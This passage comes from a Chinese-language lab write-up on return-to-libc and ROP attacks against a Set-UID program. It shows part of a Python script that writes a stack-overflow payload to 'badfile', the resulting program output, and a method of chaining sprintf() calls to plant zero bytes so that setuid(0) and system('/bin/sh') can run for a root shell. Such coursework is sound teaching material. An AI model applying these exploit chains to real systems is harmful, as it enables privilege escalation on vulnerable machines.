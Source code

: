 ```python{.line-numbers}
    ebp_next += 0x20
    content += tobytes(ebp_next)
    content += tobytes(printf_addr)
    content += tobytes(leaveret)
    content += tobytes(sh_addr)
    content += b'A' * (0x20 - 2*4)

content += tobytes(0xFFFFFFFF)
content += tobytes(exit_addr)

with open("badfile", "wb") as f:
    f.write(content)
```

使用上述代码生成 badfile 文件后，再运行 stack_rop 程序得到如下结果，可以看到 **`/bin/sh`** 被打印出 20 次。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ ./stack_rop
printf: 0xf7dd4520, exit: 0xf7db71f0
foo: 0x565561dd
address of buffer[]: 0xffffc888
frame pointer value: 0xffffc8f8
bin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bashbin/bash
```

It should be noted that even for the same program, if we change it from a Set-UID program to a non-Set-UID program, the libc library may not be loaded into the same location. Therefore, when we debug the program, we need to debug the target Set-UID program; otherwise, the address we get may be incorrect.

## 六、参数中带零的链式函数调用

在可以将任意函数链接在一起之前，还有一个问题需要解决，那就是许多函数调用的参数为零。使用 return-to-libc 技术时，我们利用缓冲区溢出攻击在栈上放置 0。如果内存复制是通过 strcpy() 进行的，在将 badfile 文件的内容复制到栈上时，复制会被这个参数 0 终止，0 之后的数据就不会被复制。

一旦我们知道如何将任意的函数调用链接在一起，我们就可以 **<font color="red">通过函数调用（例如 strcpy()、sprintf() 等）在栈上动态放置零来解决这个问题</font>**。我们将在实验中使用 sprintf()。

```c{.line-numbers}
// 将字符串从地址 src 复制到地址 dst 处的内存中，包括终止空字节（'\0')
sprintf(char *dst, char *src):
```

如果地址 src 指向一个空字符串，即只包含一个空字节 '\0' 的字符串，sprintf() 函数将把此空字节 '\0' 复制到目标内存 dst。利用这种方法，我们可以一次将一个字节的内存地址设置为零，**因此如果要将内存中的一个 4 字节 integer 设置为零，我们只需可以以 T、T+1、T+2 和 T+3 作为目标地址 4 次动态调用 sprintf() 函数，其中 T 是目标整数的内存地址**。

现在假如我们要调用 setuid(0)，在存储 setuid() 函数的第一个参数的地方，我们使用 T 表示参数的地址；该参数是一个 integer 4 字节整数。我们首先放入一个非零值到 T 的位置。在调用 setuid() 函数之前，我们四次调用 sprintf() 函数将 '\0' 字节写入地址 T、T+1、T+2 和 T+3，这实际上将 setuid 的第一个参数改变为零。而字符串 "/bin/sh" 的末尾包含一个零字节 '\0'，所以我们只需要计算出它的地址即可。完整的函数调用链如下所示：

```c{.line-numbers}
foo() --> sprintf(T, S) --> sprintf(T+1, S) --> sprintf(T+2, S) --> sprintf(T+3, S) --> setuid(0) --> system("/bin/sh") --> exit()
```
